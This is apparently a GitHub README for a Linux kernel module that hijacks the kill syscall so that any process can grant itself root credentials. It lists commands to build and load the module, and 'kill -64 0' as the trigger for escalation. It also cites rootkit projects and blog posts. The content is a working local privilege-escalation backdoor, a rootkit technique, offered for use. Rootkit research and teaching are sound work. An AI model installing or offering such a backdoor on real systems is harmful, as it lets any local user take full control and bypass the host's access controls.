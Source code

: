 # LKM-SetRootPerms
Kernel Version: 2.6.x / 3.x / 4.x / 5.x  
Linux Kernel Module (LKM) example of commiting new creds using a hijacked kill syscall.

## Dependencies
Ensure kernel headers, kernel dev packagesm and gcc is installed before building.  

Deb-based Systems:  
```
apt install linux-headers-$(uname -r) build-essential -y
```

RHEL-based Systems:  
```
yum install kernel kernel-devel kernel-headers gcc -y
```

## Install
Clone repository:  
```
git clone https://github.com/chronolator/LKM-SetRootPerms.git
```

Enter folder:  
```
cd LKM-SetRootPerms
```

Build the module:  
```
make
```

Clear dmesg:
```
dmesg --clear
```

Load the module as root:  
```
insmod ./setrootperms.ko
```

To view the SetRootPerms output:  
```
dmesg -T --color
```

## Uninstall
Unload the module as root:  
```
rmmod setrootperms
```

## Usage
Escalate privileges to root
```
kill -64 0
```

Verify
```
id
```

## References
Diamorphine: https://github.com/m0nad/Diamorphine  
Xcellerator code: https://github.com/xcellerator/linux_kernel_hacking/blob/master/3_RootkitTechniques/3.3_set_root/rootkit.c  
Xcellerator Blog: https://xcellerator.github.io/posts/linux_rootkits_02/  
Xcellerator Blog: https://xcellerator.github.io/posts/linux_rootkits_03/  
Jm33 Blog: https://jm33.me/we-can-no-longer-easily-disable-cr0-wp-write-protection.html  
MaK- Blog: https://github.com/maK-/Syscall-table-hijack-LKM
